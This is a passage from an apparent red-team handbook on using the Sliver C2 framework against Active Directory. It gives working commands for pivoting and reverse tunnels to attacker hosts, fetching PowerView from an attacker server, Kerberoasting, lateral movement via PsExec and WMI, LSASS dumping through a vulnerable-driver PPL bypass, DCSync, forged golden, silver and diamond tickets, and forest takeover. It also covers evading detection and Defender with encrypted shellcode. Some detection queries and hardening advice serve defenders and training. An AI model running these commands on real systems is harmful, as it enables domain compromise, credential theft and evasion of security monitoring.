sliver (beacon) > execute -o powershell $Forest = [System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest(); $Forest.Domains
# Using certutil (built-in)
sliver (beacon) > execute -o certutil.exeMethodology
-
sliver (beacon) > sharpsh -- '-u http://ATTACKER/PowerView.ps1 -e -c <base64_cmd>' -
sliver (beacon) > c2tc-domaininfo sliver (beacon) > execute-assembly SharpView.exe "get-domain" -
sliver (beacon) > certify -- find -
sliver (session) > ifconfig
13.8 Pivoting
When the Sliver C2 server cannot directly communicate with internal machines due to network segmentation, the compromised foothold host (e.g., WEB01 with dual NICs) serves as a pivot point.
13.8.1 SOCKS5 Proxy
SOCKS5 operates at Layer 5 of the OSI model. Start a SOCKS5 server on the session to tunnel traffic through the implant:
# Start SOCKS5 on the session (session mode only)
sliver (session) > socks5 start -P 1080
# Verify the listener
netstat -ano | grep 1080
# Use proxychains to tunnel external tools
proxychains crackmapexec smb [target-ip] -u [svc-user] -p '[password]'In-band SOCKS proxies can be unstable depending on the protocol. Ensure /etc/proxychains4.conf is configured with the correct port.
13.8.2 Chisel (Reverse SOCKS)
Chisel can be integrated as a Sliver extension using MrAle98's fork. This enables chisel client functionality directly from the implant:
# Install prerequisites and build
sudo apt install mingw-w64
git clone https://github.com/MrAle98/chisel
cd chisel/
mkdir ~/.sliver-client/extensions/chisel
cp extension.json ~/.sliver-client/extensions/chisel
make windowsdll_64
make windowsdll_32
# Update proxychains configuration
sudo sh -c 'sed -i s/socks4/socks5/g /etc/proxychains.conf && sed -i s/9050/1080/g /etc/proxychains.conf'
# Start chisel server on attack machine
chisel server --reverse -p 1337 -v --socks5
# Connect from the Sliver session
sliver (session) > chisel client [attacker-ip]:1337 R:socks13.8.3 SSH Reverse Port Forwarding
Recent Windows versions include an SSH client. From the target Windows host, create a dynamic reverse port forward to the attacker's SSH server:
# Configure SSH on the attack box (change port if needed)
sudo sh -c 'echo "Port 2222" >> /etc/ssh/sshd_config'
sudo systemctl restart sshd.service
# From the Windows target (via RDP or PowerShell)
ssh -R 1080 username@ATTACKER_IP -p 2222Methodology
-
sliver (session) > ifconfig -
sliver (session) > socks5 start -P 1080 -
proxychains crackmapexec smb [target-ip] -u user -p 'password' -
chisel server --reverse -p 1337 -v --socks5 sliver (session) > chisel client ATTACKER:1337 R:socks
13.9 Kerberos Exploitation
Kerberos is the primary authentication protocol in Active Directory (since Windows Server 2003). Understanding Kerberos is vital because many AD attacks target its ticket-based authentication system.
13.9.1 Kerberoasting
Enumeration of kerberoastable accounts:
# Via PowerView + sharpsh
echo "Get-NetUser -spn | select samaccountname,description" | base64
sliver (beacon) > sharpsh -- '-u http://ATTACKER:8080/PowerView.ps1 -e -c "<base64>"'
# Via delegationbof (number 6 = SPN LDAP check)
sliver (beacon) > delegationbof 6 [domain]
# Via setspn.exe (built-in Windows utility)
sliver (beacon) > shell
setspn.exe -Q */*Attack execution:
# Using Rubeus via inline-execute-assembly
sliver (beacon) > inline-execute-assembly Rubeus.exe 'kerberoast /format:hashcat /user:alice /nowrap'
# Using c2tc-kerberoast (armory BOF)
sliver (beacon) > c2tc-kerberoast roast alice
# Using bof-roast
sliver (beacon) > bof-roast rdp/[web-fqdn]Cracking the hash:
hashcat -m 13100 kerberoast_hash.txt /usr/share/wordlists/rockyou.txtOpSec note: Only kerberoast specific target users rather than all SPN users to reduce noise.
13.9.2 AS-REP Roasting
Enumeration:
# Via RSAT PowerShell on target
Install-WindowsFeature -Name RSAT-AD-PowerShell
Get-ADUser -Filter { DoesNotRequirePreAuth -eq $true } -Properties DoesNotRequirePreAuth | select SamAccountName
# Via SharpView
sliver (beacon) > execute-assembly SharpView.exe "get-netuser -PreauthNotRequired" -t 240 -i -E -MAttack execution:
sliver (beacon) > inline-execute-assembly Rubeus.exe 'asreproast /format:hashcat /user:[user] /nowrap'Cracking:
hashcat -m 18200 asrep_hash.txt /usr/share/wordlists/rockyou.txtMethodology
-
sliver (beacon) > delegationbof 6 [domain] -
sliver (beacon) > inline-execute-assembly Rubeus.exe 'kerberoast /format:hashcat /user:<target> /nowrap' -
sliver (beacon) > execute-assembly SharpView.exe "get-netuser -PreauthNotRequired" -i -E -M -
sliver (beacon) > inline-execute-assembly Rubeus.exe 'asreproast /format:hashcat /user:[user] /nowrap' hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt
13.10 Impersonation
Impersonation changes the current access token to another user's token, enabling access to resources available to that user. This is fundamental for lateral movement.
13.10.1 make-token
make-token creates a new logon session with specified credentials and impersonates the resulting token. It uses the LogonUserW syscall internally.
| Logon Type | Description |
|---|---|
LOGON_INTERACTIVE | Console/RDP logon |
LOGON_NETWORK | High-performance servers accepting password/hash/ticket |
LOGON_BATCH | Scheduled task or startup execution |
LOGON_SERVICE | Account with service privileges |
LOGON_NETWORK_CLEARTEXT | Uses plaintext credentials |
LOGON_NEW_CREDENTIALS | Default; clones current token, new creds for outbound connections |
# Impersonate a user
sliver (session) > make-token -u [svc-user] -d [domain] -p '[password]'
# Verify access to remote resources
sliver (session) > ls //[target-fqdn]/c$
# Revert to original token
sliver (session) > rev2selfMethodology
-
sliver (session) > make-token -u [svc-user] -d [domain] -p 'password' -
sliver (session) > ls //target.domain/c$ -
sliver (session) > rev2self
13.11 Lateral Movement
Lateral movement uses harvested credentials or hijacked processes to access resources on other machines across the domain. The compromised user must have local administrator privileges on the target host.
13.11.1 PsExec
PsExec uploads a service binary to the target, creates and starts a new Windows service to execute it, providing interactive SYSTEM-level access. Prerequisites: port 445 open, local admin on target.
In Sliver, psexec requires a service-format implant and a pivot listener (since internal hosts cannot reach the C2 directly):
# Impersonate the target user
sliver (session) > make-token -u [svc-user] -d [domain] -p '[password]'
# Start a TCP pivot listener on the foothold host (internal IP)
sliver (session) > pivots tcp --bind [target-ip]
# Generate a service-format implant pointing to the pivot
sliver > generate --format service -i [target-ip]:9898 --skip-symbols -N psexec-pivot
# Execute PsExec with custom service name/description (OpSec)
sliver (session) > psexec --custom-exe psexec-pivot.exe --service-name Teams --service-description MicrosoftTeaams [target-fqdn]OpSec notes: Sliver generates a random filename and places it in C:\Windows\Temp by default. The default service name is "Sliver" with description "Sliver implant"; always customize these to blend in. Use --binpath to change the upload directory.
13.11.2 WMI / WMIC
WMI enables remote code execution using the wmic command or wmiexec.py from Impacket. Requires local administrator privilege.
# Upload implant to target via make-token and UNC path
sliver (session) > make-token -u [svc-user] -d [domain] -p '[password]'
sliver (session) > cd //srv02.[domain]/c$/windows/tasks
sliver (session) > upload wmicpivot.exe
sliver (session) > rev2self
# Execute via WMIC from the beacon
sliver (session) > execute -o wmic /node:[target-ip] /user:[svc-user] /password:[password] process call create "C:\\windows\\tasks\\wmicpivot.exe"
# Alternative: use Impacket's wmiexec.py via proxychains
proxychains impacket-wmiexec child/[svc-user]:[password]@[target-ip]wmiexec.py writes command output to a file on the ADMIN$ share by default. Use -share C$ to write elsewhere.
13.11.3 DCOM
DCOM (Distributed Component Object Model) can be used for remote code execution via COM objects like MMC20, ShellWindows, and ShellBrowserWindow. DCOM lateral movement is harder to detect because it has many methods with different IOCs.
proxychains impacket-dcomexec -object MMC20 child/[svc-user]:[password]@[target-ip]Methodology
-
sliver (session) > make-token -u [svc-user] -d [domain] -p 'password' -
sliver (session) > pivots tcp --bind [target-ip] -
sliver > generate --format service -i [target-ip]:9898 --skip-symbols -N psexec-pivot sliver (session) > psexec --custom-exe psexec-pivot.exe --service-name Teams [target-fqdn] -
sliver (session) > execute -o wmic /node:TARGET /user:USER /password:PASS process call create "C:\\path\\to\\implant.exe"
13.12 Kerberos Delegation
Kerberos delegation allows a service to act on behalf of a user to access other services. Misconfigured delegation can lead to full domain compromise.

13.12.1 Unconstrained Delegation
Attack flow:
| Step | Description |
|---|---|
| 1-2 | User requests and receives TGT from DC |
| 3-4 | User requests and receives TGS for the target service |
| 5 | User sends both TGT and TGS to the front-end server (e.g., IIS) |
| 6 | Front-end server uses user's TGT to request TGS for back-end service |
| 7 | Front-end server accesses back-end service on behalf of the user |
Enumeration:
# Enumerate unconstrained delegation computers
echo "Get-NetComputer -Unconstrained" | base64
sliver (session) > sharpsh -- '-u http://PIVOT_IP:8080/PowerView.ps1 -e -c <base64>'
# Output: dc01.[domain], [target-fqdn]Exploitation:
# On the unconstrained delegation host, monitor for TGTs
.\Rubeus.exe monitor /interval:5 /nowrap
# From Sliver, coerce DC authentication via SpoolSample (printer bug)
sliver (session) > inline-execute-assembly SpoolSample.exe 'dc01 srv01'
# Capture DC01$ TGT from Rubeus output, save to .kirbi
[System.IO.File]::WriteAllBytes("C:\windows\temp\dc01.kirbi", [System.Convert]::FromBase64String("<base64_ticket>"))
# Import ticket and perform DCSync
.\mimikatz.exe "privilege::debug" "kerberos::ptt C:\windows\temp\dc01.kirbi" "lsadump::dcsync /domain:[domain] /user:child\administrator" "exit"Why this works: The DC's computer account TGT is captured because SpoolSample coerces the DC to authenticate to the unconstrained delegation host via MS-RPRN. The DC sends its TGT which is then cached and extractable. Since the DC computer account has DCSync privileges, the attacker can use it to replicate credentials.
13.12.2 Constrained Delegation
S4U2Self: The server requests a TGS for the user to access itself. S4U2Proxy: The server uses the S4U2Self ticket to request a TGS for the user to access the constrained service.
Enumeration:
sliver (beacon) > sharpview Get-NetComputer -TrustedToAuth
# Look for msds-allowedtodelegateto attributeExploitation:
# Step 1: Get the computer account's NTLM hash (dump LSASS)
sliver (session) > nanodump <lsass_pid> web01-lsass 1 PMDM
python3 -m pypykatz lsa minidump web01-lsass
# Step 2: Request TGT for the machine account
sliver (session) > inline-execute-assembly Rubeus.exe 'asktgt /user:web01$ /rc4:<ntlm_hash> /nowrap'
# Step 3: S4U attack -- impersonate a domain admin to the target service
# Note: child\Administrator has "cannot be delegated" set, use carrot instead
sliver (session) > inline-execute-assembly Rubeus.exe 's4u /impersonateuser:carrot /msdsspn:eventsystem/srv02.[domain] /user:web01$ /ticket:<tgt_base64> /nowrap'
# Step 4: Import the ticket and verify access
sliver (session) > ls //srv02.[domain]/c$Key point: Even though the allowed delegation target is eventsystem, the attacker can substitute cifs (or any service) because the service name is not validated during ticket processing.
13.12.3 PPL Bypass for Credential Dumping
Protected Process Light (PPL) prevents even SYSTEM from accessing LSASS memory. When PPL is enabled, mimikatz returns: ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005).
Bypass using vulnerable signed drivers:
# Load a vulnerable signed driver (RTCore64.sys from MSI)
sc.exe create RTCore64 type= kernel start= auto binPath= C:\path\RTCore64.sys DisplayName= "control"
net start RTCore64
# List protected processes
.\PPLcontrol.exe list
# Remove PPL from LSASS (find PID with Lsa signer)
.\PPLcontrol.exe unprotect 656
# Now dump credentials successfully
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"Tools for PPL bypass: PPLControl, EDRSandblast, RToolZ: all abuse vulnerable signed drivers (RTCore64.sys, ProcExp152.sys) to execute arbitrary kernel code.
Methodology
-
sliver (session) > sharpsh -- '-u http://ATTACKER/PowerView.ps1 -e -c R2V0LU5ldENvbXB1dGVyIC1VbmNvbnN0cmFpbmVkCg==' -
sliver (session) > inline-execute-assembly SpoolSample.exe 'dc01 srv01' -
sliver (beacon) > sharpview Get-NetComputer -TrustedToAuth -
sliver (session) > inline-execute-assembly Rubeus.exe 'asktgt /user:web01$ /rc4:HASH /nowrap' sliver (session) > inline-execute-assembly Rubeus.exe 's4u /impersonateuser:admin /msdsspn:cifs/target /user:web01$ /ticket:TGT /nowrap'
13.13 DACL Exploitation
DACLs (Discretionary Access Control Lists) specify which users or groups can access specific AD objects and what permissions they have. Each ACE (Access Control Entry) in the DACL defines specific access rights.
13.13.1 BloodHound Data Collection
Use sharp-hound-4 to collect domain relationship data for analysis in BloodHound:
# Custom zip filename to avoid default "BloodHound.zip" detection
sliver (session) > sharp-hound-4 -- -c All --zipfilename academy
# Download the results
sliver (session) > download 20231110100403_academy.zipOpSec consideration: The default zip filename BloodHound.zip and JSON filenames like _computers.json, _users.json are detected by Sigma rules. Use custom filenames to evade this.
13.13.2 ForceChangePassword
# Using bloodyAD to change password (via proxychains)
proxychains bloodyAD --host [target-ip] -d [domain] -u [svc-user] -p '[password]' set password [user] '[password]'
# Verify with CrackMapExec
proxychains crackmapexec smb [target-ip] -u [user] -p '[password]'13.13.3 GenericWrite
# Set a fake SPN on the target user
proxychains bloodyAD --host [target-ip] -d [domain] -u [user] -p '[password]' set object websec servicePrincipalName -v fake/[web-fqdn]
# Verify the SPN was set
proxychains bloodyAD --host [target-ip] -d [domain] -u [user] -p '[password]' get object websec
# Kerberoast the user with the new SPN
sliver (beacon) > c2tc-kerberoast roast websec
# Convert ticket to hashcat format and crack
python3 TicketToHashcat.py websec-ticket.enc
john roastme-13100.txt -w=/usr/share/wordlists/rockyou.txtMethodology
-
sliver (session) > sharp-hound-4 -- -c All --zipfilename custom_name -
proxychains bloodyAD --host DC_IP -d DOMAIN -u ATTACKER -p 'PASS' set password TARGET 'NewPass!' -
proxychains bloodyAD --host DC_IP -d DOMAIN -u ATTACKER -p 'PASS' set object TARGET servicePrincipalName -v fake/host.domain sliver (beacon) > c2tc-kerberoast roast TARGET
13.14 Domain Controller Compromise
With enough compromised accounts, the goal is to achieve full domain compromise through DCSync, persistence mechanisms, and forged Kerberos tickets.
13.14.1 DCSync
Attack via Impacket:
# DCSync using secretsdump with compromised DCSync-capable credentials
proxychains impacket-secretsdump -just-dc mobilesec:spongebob@[target-ip]Granting DCSync permissions (Method 1; Rubeus + SharpView from Sliver):
# Get a TGT for the domain admin using their hash
sliver (session) > rubeus -- asktgt /user:Administrator /d:[domain] /rc4:<ntlm_hash> /ptt
# Verify access to DC
sliver (session) > ls //dc01.[domain]/c$
# PsExec to the DC and grant DCSync to [svc-user]
sliver (session) > pivots tcp
sliver > generate --format service -i [target-ip]:9898 --skip-symbols -N psexec-pivot
sliver (session) > psexec --custom-exe psexec-pivot.exe --service-name Teams dc01.[domain]
# From the DC session, grant DCSync rights
sliver (dc-session) > sharpview -- 'Add-DomainObjectAcl -PrincipalIdentity [svc-user] -Rights DCSync'
# Verify via secretsdump
proxychains impacket-secretsdump -just-dc '[svc-user]:[password]'@[target-ip]Granting DCSync permissions (Method 2; Evil-WinRM + PowerView):
# Connect to DC with admin hash
proxychains evil-winrm -i [target-ip] -u Administrator -H <ntlm_hash> -s .
# Load PowerView
*Evil-WinRM* PS> PowerView.ps1
# Grant DCSync to [svc-user]
*Evil-WinRM* PS> Add-DomainObjectAcl -PrincipalIdentity [svc-user] -Rights DCSync13.14.2 AdminSDHolder Persistence
# Grant eric Full Control on AdminSDHolder
*Evil-WinRM* PS> Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=child,DC=htb,DC=local" -PrincipalIdentity eric -Rights All13.14.3 Skeleton Key
*Evil-WinRM* PS> .\mimikatz.exe "privilege::debug" "misc::skeleton" "exit"Not persistent across reboots.
13.14.4 Malicious SSP
mimikatz # misc::memssp
# Next time a user logs in, their password is written to mimilsa.log13.14.5 Golden Ticket
# Dump krbtgt hash via DCSync
*Evil-WinRM* PS> .\mimikatz.exe "privilege::debug" "lsadump::dcsync /user:child\krbtgt" "exit"
# Create golden ticket (10-hour lifetime to avoid default 10-year detection)
*Evil-WinRM* PS> .\mimikatz.exe "kerberos::golden /user:Administrator /domain:[domain] /sid:[domain-sid] /aes256:<krbtgt_aes256> /startoffset:0 /endin:600 /renewmax:10080 /ticket:golden.kirbi" "exit"13.14.6 Silver Ticket
# Create a silver ticket for CIFS on [target-host]
.\mimikatz.exe "kerberos::golden /user:Administrator /domain:[domain] /sid:[domain-sid] /target:srv01 /service:cifs /aes256:<srv01_aes256> /startoffset:0 /endin:600 /renewmax:10080 /ticket:silver.kirbi" "exit"| Access Type | Service Name |
|---|---|
| PsExec (file shares) | cifs |
| WMI | HOST + RPCSS |
| WinRM | HOST + HTTP |
| Scheduled Tasks | HOST |
Persistence: Silver tickets remain valid until the computer account password changes (default: every 30 days).
13.14.7 Diamond Ticket
# Create diamond ticket via Rubeus
sliver (beacon) > execute-assembly Rubeus.exe diamond /tgtdeleg /ticketuser:carrot /ticketuserid:1114 /group:512 /krbkey:<krbtgt_aes256> /nowrapMethodology
-
proxychains impacket-secretsdump -just-dc user:pass@DC_IP -
mimikatz # kerberos::golden /user:Administrator /domain:DOMAIN /sid:DOMAIN_SID /aes256:KRBTGT_AES /endin:600 /ticket:golden.kirbi -
sliver (beacon) > execute-assembly Rubeus.exe diamond /tgtdeleg /ticketuser:admin /ticketuserid:500 /group:512 /krbkey:KRBTGT_AES /nowrap -
Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=domain,DC=local" -PrincipalIdentity user -Rights All
13.15 Whole Forest Compromise
After dominating a child domain, the next objective is to compromise the parent domain and the entire forest. This requires understanding domain trusts, SID history, and trust keys.
13.15.1 Trust Concepts
| Concept | Description |
|---|---|
| Domain Trust | Trust relationship enabling cross-domain resource access. Can be one-way or two-way, transitive or non-transitive |
| Domain Admins (DA) | Highest privilege in a single domain; no authority outside the domain unless explicitly configured |
| Enterprise Admins (EA) | Highest privilege across the entire forest (exists only in the root domain) |
| Foreign Security Principal | Security principals from trusted domains granted access in the target domain |
| SID History | Attribute supporting migration scenarios; adds previous SIDs to maintain access |
| Trust Key | Shared secret between domains (special computer account: HTB$ in child, CHILD$ in parent) used to sign inter-realm TGTs |
Enumeration:
# Enumerate domain trusts
*Evil-WinRM* PS> Get-DomainTrust
# Output: [domain] <-> htb.local (Bidirectional, WITHIN_FOREST)
# Enumerate foreign security principals
*Evil-WinRM* PS> Get-DomainForeignUser
# Shows which child domain users have access to parent domain groups
# Get parent domain SID
sliver (beacon) > sharpview -t 120 -- Get-DomainSid -Domain htb.local13.15.2 Cross-Forest Attack via krbtgt (Diamond Ticket)
# Forge a diamond ticket with Enterprise Admins SID
sliver (beacon) > inline-execute-assembly -t 120 Rubeus.exe "diamond /tgtdeleg /ticketuser:administrator /ticketuserid:500 /groups:519 /sids:[sid] /krbkey:<child_krbtgt_aes256> /nowrap"13.15.3 Cross-Forest Attack via Trust Key (Golden Ticket)
# Dump the trust key
mimikatz # lsadump::dcsync /user:CHILD\krbtgt
# Forge a golden ticket with Enterprise Admins extra SID
mimikatz # kerberos::golden /user:student /domain:[domain] /sid:[domain-sid] /krbtgt:ec3e7210e3f08666c5d08c7ecbed1fab /sids:[sid] /ptt
# Verify access to parent domain DC
ls \\[foreign-dc-fqdn]\c$OpSec advantage: Using inline-execute-assembly with a diamond ticket is stealthier than mimikatz golden ticket injection, as diamond tickets modify legitimate TGTs rather than forging entirely new ones.
Methodology
-
Get-DomainTrust Get-DomainForeignUser -
sliver (beacon) > sharpview -- Get-DomainSid -Domain htb.local -
sliver (beacon) > inline-execute-assembly Rubeus.exe "diamond /tgtdeleg /ticketuser:administrator /ticketuserid:500 /groups:519 /sids:PARENT_SID-519 /krbkey:CHILD_KRBTGT_AES /nowrap" -
mimikatz # kerberos::golden /user:student /domain:child.domain /sid:CHILD_SID /krbtgt:KRBTGT_HASH /sids:PARENT_SID-519 /ptt -
ls \\[foreign-dc-fqdn]\c$
13.16 Detection of Sliver
Understanding how Sliver is detected helps operators improve their OpSec and helps defenders build better detection capabilities.
Methodology
-
sliver (session) > getsystem --process svchost.exe -
sliver (session) > psexec --custom-exe implant.exe --service-name LegitSvc --service-description "Windows Update Service" --binpath "c:\\programdata" target.domain
13.16.1 Shell Command Detection
The shell command in Sliver spawns an interactive PowerShell shell with hardcoded arguments that are easily detected:
# Sliver's internal PowerShell arguments (from shell_windows.go)
powerShell = []string{
"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
"-NoExit",
"-Command", "[Console]::OutputEncoding=[Text.UTF8Encoding]::UTF8",
}Sigma rule detection: Monitors process creation for command lines containing -NoExit -Command [Console]::OutputEncoding=[Text.UTF8Encoding]::UTF8. This is a critical-level detection with almost no false positives.
Evasion: Modify the powerShell string in Sliver's source code to use different parameters that still spawn PowerShell but avoid the signature.
13.16.2 getsystem Detection
The getsystem command targets spoolsv.exe by default, which is heavily monitored. Its detection relies on:
| Detection Point | Description |
|---|---|
SeDebugPrivilege | Enabled by the implant to debug SYSTEM processes (Event ID 4672) |
CreateRemoteThreadApiCall | Used to inject shellcode into the target process (Sysmon Event ID 8) |
spoolsv.exe | Default injection target, monitored for remote thread creation |
# Microsoft's detection query (Defender for Endpoint)
DeviceEvents
| where FileName == 'spoolsv.exe'
| where ActionType == 'CreateRemoteThreadApiCall'
| where InitiatingProcessFileName !~ 'csrss.exe'Changing the target process to svchost.exe avoids the spoolsv.exe check but is still detected via the SeDebugPrivilege assignment.
13.16.3 PsExec Detection
Sliver's psexec command has several detectable defaults:
| Default | Detection | Mitigation |
|---|---|---|
| Service name: "Sliver" | Registry/event log check for service name | Use --service-name |
| Description: "Sliver implant" | Registry check for description | Use --service-description |
Path: C:\Windows\Temp | VQL regex: :\\\\Windows\\\\Temp\\\\[a-zA-Z0-9]{10}\\.exe | Use --binpath |
| Random 10-char filename | Regex match on random alphanumeric names | Use --custom-exe with a realistic name |
| Event ID 7045 | New service installation event | Cannot avoid |
Velociraptor VQL detection (Windows.System.Services.SliverPSExec):
SELECT * FROM Artifact.Windows.System.Services()
WHERE Name =~ "^Sliver" or
DisplayName =~ "^Sliver" or
Description =~ "Sliver implant" or
PathName =~ ":\\\\Windows\\\\Temp\\\\[a-zA-Z0-9]{10}\\.exe"Filename generation internals: Sliver uses randomString() which generates 1-9 alphanumeric characters plus two random string portions. The resulting name is always lowercase and placed in the configured binpath.
Remediation (for defenders):
13.17 Quick Reference
| Attack Technique | Sliver Command / Tool | Key Detection |
|---|---|---|
| Initial implant generation | generate beacon --http IP:PORT | String analysis, JA3 fingerprinting |
| Privilege escalation | getsystem, GodPotato | SeDebugPrivilege, CreateRemoteThread |
| Credential dumping | hashdump, procdump, nanodump | LSASS access (Sysmon ID 10), PPL bypass |
| Persistence (schtasks) | execute powershell 'schtasks ...' | Event ID 4698 (task creation) |
| Persistence (registry) | sharpersist -- -t reg | Registry modification auditing |
| Domain recon | sharpview, sharpsh, c2tc-domaininfo | LDAP query monitoring (Event ID 1644) |
| Kerberoasting | inline-execute-assembly Rubeus.exe kerberoast | Event ID 4769 (RC4 TGS requests) |
| AS-REP Roasting | inline-execute-assembly Rubeus.exe asreproast | Event ID 4768 (RC4 AS-REP) |
| Lateral movement (PsExec) | psexec --custom-exe --service-name | Event ID 7045 (service install) |
| Lateral movement (WMI) | execute -o wmic ... process call create | WMI event subscription monitoring |
| Unconstrained delegation | SpoolSample + Rubeus monitor | Event ID 4769, printer spooler abuse |
| Constrained delegation | Rubeus S4U (asktgt + s4u) | S4U2Self/S4U2Proxy ticket patterns |
| DACL abuse | bloodyAD, sharp-hound-4 | ACL modification events (Event ID 5136) |
| DCSync | impacket-secretsdump -just-dc | Event ID 4662 (DS-Replication) |
| Golden ticket | mimikatz kerberos::golden | TGS-REQ without AS-REQ, long lifetimes |
| Diamond ticket | Rubeus diamond /tgtdeleg | Harder to detect (modified legitimate TGT) |
| Forest compromise | Diamond/Golden ticket with /sids | SID history anomalies, cross-realm TGTs |
14. Windows Evasion Techniques
Core principle: AV evasion is a cat-and-mouse game. Specific bypasses have a limited shelf life, so understanding the concepts matters more than memorizing individual payloads. All techniques shown against Defender can be adapted for other AV products.
14.1 Microsoft Defender Antivirus
Microsoft Defender Antivirus ships pre-installed on every copy of Windows since Windows 8, making it the most commonly encountered AV solution during engagements. It is the baseline adversaries must defeat, and it employs both traditional signature-based detection and modern machine-learning models.

14.1.2 Interacting with Defender via PowerShell
While the Windows Security GUI provides basic scan/history/settings, the Defender PowerShell module offers deeper visibility and automation. Key cmdlets:
| Cmdlet | Purpose |
|---|---|
Get-MpComputerStatus | Overall AV status: signature dates, tamper protection, VM detection, real-time protection state |
Get-MpThreat | View history of detected threats (name, severity, category) |
Get-MpThreatDetection | Detection event details: timestamp, file path, action taken, user context |
Get-MpPreference | View current Defender configuration and exclusions |
Set-MpPreference | Configure Defender settings (requires admin) |
Add-MpPreference | Add exclusion paths, processes, or extensions |
Remove-MpPreference | Remove configured preferences |
Start-MpScan | Trigger a manual scan |
Update-MpSignature | Force a signature update |
# List all Defender cmdlets
Get-Command -Module Defender
# Check AV status (signature date, real-time protection, tamper protection)
Get-MpComputerStatus
# View detected threats
Get-MpThreat
# Get detection details for a specific threat
Get-MpThreatDetection -ThreatID 2147894794
# Disable real-time protection (requires admin, useful during development)
Set-MpPreference -DisableRealTimeMonitoring $true
# Re-enable real-time protection
Set-MpPreference -DisableRealTimeMonitoring $falseKey fields in Get-MpComputerStatus:
Key fields in Get-MpThreatDetection:
-
# Example: viewing a Cobalt Strike detection PS C:\> Get-MpThreat CategoryID : 6 DidThreatExecute : False IsActive : False SeverityID : 5 ThreatID : 2147894794 ThreatName : Backdoor:Win64/CobaltStrike!pz PS C:\> Get-MpThreatDetection -ThreatID 2147894794 ActionSuccess : True DetectionSourceTypeID : 3 DomainUser : WIN-I092S2V54F8\Administrator InitialDetectionTime : 4/9/2024 9:38:39 AM Resources : {file:_C:\artifact_x64.exe}
Clearing protection history: Delete all files in C:\ProgramData\Microsoft\Windows Defender\Scans\History\Service.
Methodology
-
Get-MpComputerStatus | Select-Object RealTimeProtectionEnabled, IsTamperProtected, AntivirusSignatureLastUpdated -
Get-MpPreference | Select-Object -ExpandProperty ExclusionPath -
Get-MpThreat Get-MpThreatDetection -
# Place payloads in excluded directory for testing # Then copy to non-excluded path to verify evasion
14.1.1 Detection Categories
Defender's detection mechanisms fall into two broad categories:
| Category | Description | When It Triggers |
|---|---|---|
| Static Analysis | Detects malware on disk before execution. Scans file hashes, byte patterns, and strings against a signature database. | File creation, file modification, manual/scheduled scan |
| Dynamic Analysis | Detects active malware in process memory. Triggers memory scans based on suspicious behavior. | Process creation, suspicious behavior (e.g., Word spawning PowerShell), memory allocation patterns |
Defender scans for several triggering events: file creation or modification (catching malicious files before execution), and suspicious behavioral patterns (e.g., a Microsoft Word process spawning a PowerShell child process).
14.1.3 Remediation and Hardening
- Enable Tamper Protection to prevent attackers from disabling Defender via PowerShell or registry changes
- Keep signatures updated: stale signatures miss new threats
- Enable cloud-delivered protection for ML-based detection beyond local signatures
- Restrict who can modify Defender settings via Group Policy or Intune
- Monitor for
Set-MpPreference -DisableRealTimeMonitoringin PowerShell logs as an indicator of attacker activity - Enable Attack Surface Reduction (ASR) rules to block common attack vectors (Office macros spawning child processes, credential theft from LSASS, etc.)
14.2 Static Analysis Evasion
Static analysis refers to detecting malware on disk, before execution, by scanning file hashes, byte patterns, and strings against a database of known malicious values. If any portion of a binary matches a known-bad signature, Defender quarantines the file immediately.
14.2.1 How Static Analysis Works
File hash matching: If a file's SHA256 hash matches a known malware sample (e.g., WannaCry: ed01ebfbc9eb5bbea545af4d01bf5f1071661840480439c6e5babe8e080e41aa), it is flagged immediately. This is the simplest detection method, but it is easy to defeat because changing a single byte alters the hash.
Byte pattern / string matching: More robust than hash matching. Defender uses patterns of bytes and strings to identify malware families even when the hash changes. For example, a YARA rule for WannaCry might use 15 different strings and 6 byte sequences, so modifying one string is not enough.
Why it matters: Static analysis is the first line of defense. A file that survives static analysis may still be caught by dynamic analysis, but failing static analysis means the payload never even gets to execute.
Exploring Defender's signature database: While not publicly available, the database can be partially explored using ExpandDefenderSig.ps1 (by Matt Graeber), which decompresses Defender signature files:
# Load the signature expansion module
Import-Module C:\Tools\ExpandDefenderSig\ExpandDefenderSig.ps1
# Decompress the signature database
ls "C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{GUID}\mpavbase.vdm" |
Expand-DefenderAVSignatureDB -OutputFileName mpavbase.raw
# Search for specific strings in signatures
C:\Tools\Strings\strings64.exe .\mpavbase.raw | Select-String -Pattern "WNcry@2ol7"14.2.2 Identifying Flagged Bytes with ThreatCheck
ThreatCheck is a tool that pinpoints exactly which bytes in a binary trigger a Defender detection. It works by splitting the file into chunks and having Defender scan each chunk until it isolates the trigger. This is essential for targeted obfuscation rather than blind modification.
# Run ThreatCheck against a compiled binary (with real-time protection DISABLED)
C:\Tools\ThreatCheck-master\ThreatCheck\ThreatCheck\bin\x64\Release\ThreatCheck.exe -f .\NotMalware.exeThreatCheck output reveals the exact byte offset and surrounding context that triggers detection. In many cases, the flagged bytes are shellcode (e.g., Meterpreter stagers), well-known strings, or known GUIDs.
14.2.3 XOR Encryption (Insufficient)
XOR the shellcode with a key before embedding it in the binary, then XOR it back at runtime before writing to memory. On disk, the shellcode appears as random bytes that should not match any signature.
// XOR'd shellcode stored in binary
byte[] buf = new byte[] { /* XOR'd bytes */ };
// Decrypt at runtime before memory copy
int i = 0;
while (i < buf.Length)
{
buf[i] = (byte)(buf[i] ^ 0x5c); // XOR key: 0x5C
i++;
}
// Then proceed with VirtualAlloc, Marshal.Copy, etc.Why XOR alone fails: Modern AV solutions, including Defender, can detect simple XOR patterns. The XOR operation is trivially reversible, and Defender may include rules that detect XOR loops followed by memory allocation, or may brute-force single-byte XOR keys. ThreatCheck will still flag XOR-encrypted Meterpreter shellcode.
14.2.4 AES Encryption (Effective for Static Bypass)
Use AES encryption with a proper key and IV to encrypt the shellcode. AES is cryptographically strong enough that Defender cannot brute-force the key to check the plaintext. At runtime, decrypt using the embedded key/IV before writing to memory.
Workflow:
-
